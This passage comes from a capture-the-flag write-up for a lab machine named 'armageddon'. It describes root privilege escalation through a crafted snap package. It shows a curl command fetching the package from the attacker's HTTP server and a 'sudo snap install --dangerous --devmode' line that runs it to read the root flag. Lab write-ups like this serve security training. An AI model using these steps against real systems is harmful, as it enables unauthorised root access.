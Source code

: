 Running the command resulted in a `xxx_1.0_all.snap` file and redirected me to a `/tmp` sub-directory

![snap](Images/snap.png)

Following this, I opened a Python Server on Port 80 and picked it up from the victim through a `curl` command

```
$ curl 10.10.14.10/xxxx_1.0_all.snap -o test.snap

[brucetherealadmin@armageddon ~]$ ls
test.snap  user.txt
[brucetherealadmin@armageddon ~]$ sudo snap install test.snap --dangerous --devmode
```

Having run the `curl` command, I renamed the output to `test.snap`. After this, I was able to execute it to verify that `$COMMAND` produced the output of the id command.

```
sudo snap install test.snap --dangerous --devmode
```

Seeing this being successfully tested, I was able to extend this to do a file-read of the `root.txt` flag.

